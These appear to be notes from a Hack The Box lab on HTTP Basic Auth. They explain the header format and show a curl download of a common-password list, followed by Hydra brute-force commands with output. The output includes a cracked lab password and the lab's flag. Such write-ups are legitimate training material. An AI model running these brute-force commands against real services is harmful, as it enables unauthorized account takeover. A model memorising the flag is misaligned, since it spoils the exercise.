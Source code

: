 ﻿Web applications often employ authentication mechanisms to protect sensitive data and functionalities. Basic HTTP Authentication, or simplyÂ `Basic Auth`, is a rudimentary yet common method for securing resources on the web. Though easy to implement, its inherent security vulnerabilities make it a frequent target for brute-force attacks.

In essence, Basic Auth is a challenge-response protocol where a web server demands user credentials before granting access to protected resources. The process begins when a user attempts to access a restricted area. The server responds with aÂ `401 Unauthorized`Â status and aÂ `WWW-Authenticate`Â header prompting the user's browser to present a login dialog.

Once the user provides their username and password, the browser concatenates them into a single string, separated by a colon. This string is then encoded using Base64 and included in theÂ `Authorization`Â header of subsequent requests, following the formatÂ `Basic <encoded_credentials>`. The server decodes the credentials, verifies them against its database, and grants or denies access accordingly.

For example, the headers for Basic Auth in a HTTP GET request would look like:

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Exploiting Basic Auth with Hydra

**To follow along, start the target system via the question section at the bottom of the page.**

We will use theÂ `http-get`Â hydra service to brute force the basic authentication target.

In this scenario, the spawned target instance employs Basic HTTP Authentication. We already know the username isÂ `basic-auth-user`. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:

```shell-session
# Download wordlist if needed
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
smoothment@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

Let's break down the command:

- `-l basic-auth-user`: This specifies that the username for the login attempt is 'basic-auth-user'.
- `-P 2023-200_most_used_passwords.txt`: This indicates that Hydra should use the password list contained in the file '2023-200_most_used_passwords.txt' for its brute-force attack.
- `127.0.0.1`: This is the target IP address, in this case, the local machine (localhost).
- `http-get /`: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
- `-s 81`: This overrides the default port for the HTTP service and sets it to 81.

Upon execution, Hydra will systematically attempt each password from theÂ `2023-200_most_used_passwords.txt`Â file against the specified resource. Eventually it will return the correct password forÂ `basic-auth-user`, which you can use to login to the website and retrieve the flag.

# Question
---

![Pasted image 20250213141136.png](../../../../IMAGES/Pasted%20image%2020250213141136.png)

We can use the following command:

```
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt IP http-get / -s PORT -t 40
```

We get the following output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:15:11
[DATA] max 40 tasks per 1 server, overall 40 tasks, 200 login tries (l:1/p:200), ~5 tries per task
[DATA] attacking http-get://83.136.253.28:31818/
[31818][http-get] host: 83.136.253.28   login: basic-auth-user   password: Password@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-13 20:15:13
```

Got credentials:

```ad-note
`basic-auth-user`:`Password@123`
```

If we log in, we can see the flag:

![Pasted image 20250213151644.png](../../../../IMAGES/Pasted%20image%2020250213151644.png)

Flag is:

```
HTB{th1s_1s_4_f4k3_fl4g}
```
